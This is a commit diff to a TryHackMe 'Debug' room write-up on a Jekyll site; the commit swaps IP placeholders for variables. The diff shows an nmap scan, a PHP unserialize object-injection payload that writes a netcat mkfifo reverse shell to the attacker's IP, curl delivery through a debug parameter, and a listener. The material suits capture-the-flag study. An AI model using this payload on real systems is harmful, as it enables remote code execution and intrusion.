

Before and after one commit to bitcriminals/bitcriminals.github.io, a Jekyll site: the page built from writeups/_tryhackme/debug.md, in a window 1280 px wide and 1400 px high, scrolled down 3989 px. Shown: the top 917 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update debug.md

````diff
--- a/writeups/_tryhackme/debug.md
+++ b/writeups/_tryhackme/debug.md
@@ -18,7 +18,7 @@
 
 First, let's do a basic nmap scan:
 ```shell
-nmap -Pn -A <machine_ip>
+nmap -Pn -A $MACHINE_IP
 ```
 
 ![](/images/v1per/Debug_1.png)
@@ -26,7 +26,7 @@
 So, we get 2 open ports: **Port 22 (SSH)** and **Port 80 (HTTP)**
 
 We can see that there's a web-server open, so let's visit the website.
-**http://<machine_ip>:80**
+**http://$MACHINE_IP:80**
 
 ![](/images/v1per/Debug_2.png)
 
@@ -38,7 +38,7 @@
 
 ![](/images/v1per/Debug_3.png)
 
-We find a **/backup** directory. Let's visit it: **http://<machine_ip>:80/backup**
+We find a **/backup** directory. Let's visit it: **http://$MACHINE_IP:80/backup**
 
 ![](/images/v1per/Debug_4.png)
 
@@ -52,13 +52,13 @@
 
 ![](/images/v1per/Debug_6.png)
 
-Filling it with arbitrary values and submitting it, we see that it gets displayed in **http://<machine_ip>:80/message.txt**, which is what the PHP file we found is doing. I wrote this PHP code for the attack (replace <your_tun0_IP> with, well, what it says):
+Filling it with arbitrary values and submitting it, we see that it gets displayed in **http://$MACHINE_IP:80/message.txt**, which is what the PHP file we found is doing. I wrote this PHP code for the attack (replace $your_tun0_IP with, well, what it says):
 
 ```php
 <?php
 class FormSubmit{
         public $form_file = 'lol.php';
-        public $message = '<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_tun0_IP> 1234 >/tmp/f"); ?>';
+        public $message = '<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $your_tun0_IP 1234 >/tmp/f"); ?>';
 }
 $obj = new FormSubmit();
 echo urlencode(serialize($obj));
@@ -74,10 +74,10 @@
 
 Copy this output, and run the following command to upload our payload:
 ```shell
-curl -i http://<machine_ip>:80/index.php?debug=<copied_text>
+curl -i http://$MACHINE_IP:80/index.php?debug=<copied_text>
 ```
 or just visit the following website:
-**http://<machine_ip>:80/index.php?debug=<copied_text>**
+**http://$MACHINE_IP:80/index.php?debug=<copied_text>**
 
 ![](/images/v1per/Debug_8.png)
 
@@ -85,7 +85,7 @@
 ```shell
 nc -lnvp 1234
 ```
-and navigate to **http://<machine_ip>:80/lol.php**.
+and navigate to **http://$MACHINE_IP:80/lol.php**.
 And YAY! We have got our shell!
 
 ![](/images/v1per/Debug_9.png)
````
